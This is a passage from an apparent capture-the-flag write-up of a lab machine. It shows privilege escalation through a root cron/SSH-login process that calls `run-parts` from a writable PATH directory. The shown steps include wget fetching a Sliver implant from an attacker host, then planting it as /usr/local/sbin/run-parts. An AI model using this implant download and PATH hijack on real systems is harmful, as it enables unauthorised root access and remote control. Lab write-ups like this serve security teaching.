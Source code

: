 Okay, so we see that a cron job runs every minute that runs `/bin/sh -c /root/bin/cleanup.pl` - not super interesting because there doesn't appear to be anything that we can hijack. However, if we leave this running, and open a new SSH connection we get the following:

``` bash
2021/07/24 17:50:58 CMD: UID=102  PID=2303   | sshd: [net]       
2021/07/24 17:51:01 CMD: UID=0    PID=2304   | /usr/sbin/CRON 
2021/07/24 17:51:01 CMD: UID=0    PID=2305   | /usr/sbin/CRON 
2021/07/24 17:51:01 CMD: UID=0    PID=2306   | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/24 17:51:07 CMD: UID=0    PID=2307   | sshd: jkr [priv]  
2021/07/24 17:51:07 CMD: UID=0    PID=2308   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/24 17:51:07 CMD: UID=0    PID=2309   | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/24 17:51:07 CMD: UID=0    PID=2310   | uname -rnsom 
2021/07/24 17:51:07 CMD: UID=0    PID=2311   | sshd: jkr [priv]  
2021/07/24 17:51:08 CMD: UID=1000 PID=2312   | sshd: jkr@pts/1   
2021/07/24 17:51:08 CMD: UID=1000 PID=2313   | -bash 
2021/07/24 17:51:08 CMD: UID=1000 PID=2314   | -bash 
```

I could be mistaken, but I'm pretty sure it isn't incredibly uncommon for scripts/commands to run on ssh-startup.

Anyway, the interesting part is that we see root's PATH, which contains `/usr/local/bin` which we can write to. Then root calls a program `run-parts` without specifying the path, not it's possible that `run-parts` is in `/usr/local/sbin` buuuuuut.... we can write to that too!

``` bash
jkr@writeup:~$ ls -ld /usr/local/sbin
drwx-wsr-x 2 root staff 12288 Apr 19  2019 /usr/local/sbin
```

Alright, here's the idea, if we can create a program in `/usr/local/sbin` called `run-parts` and assuming it's not already housed there... when we log in with SSH it'll actually run OUR version, which is whatever we wrote. Let's set Bishop Fox's [Sliver](https://github.com/BishopFox/sliver), generate an implant, send it to the machine and move that implant to `/usr/local/sbin/run-parts`!

``` bash
jkr@writeup:/tmp$ wget http://10.10.16.205:8080/writeup
--2021-07-24 22:45:15--  http://10.10.16.205:8080/writeup
Connecting to 10.10.16.205:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7974912 (7.6M) [application/octet-stream]
Saving to: ‘writeup’

writeup                       100%[=================================================>]   7.61M  7.77MB/s    in 1.0s    

2021-07-24 22:45:16 (7.77 MB/s) - ‘writeup’ saved [7974912/7974912]

jkr@writeup:/tmp$ file writeup
writeup: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
jkr@writeup:/tmp$ ls -al writeup
-rw-r--r-- 1 jkr jkr 7974912 Jul 24 17:53 writeup
jkr@writeup:/tmp$ chmod +x writeup
jkr@writeup:/tmp$ ls -al writeup
-rwxr-xr-x 1 jkr jkr 7974912 Jul 24 17:53 writeup
kr@writeup:/tmp$ mv writeup run-parts
jkr@writeup:/tmp$ mv run-parts /usr/local/sbin/run-parts
jkr@writeup:/tmp$ ls -al /usr/local/sbin/run-parts
-rwxr-xr-x 1 jkr jkr 7974912 Jul 24 17:53 /usr/local/sbin/run-parts
jkr@writeup:/tmp$ 
```

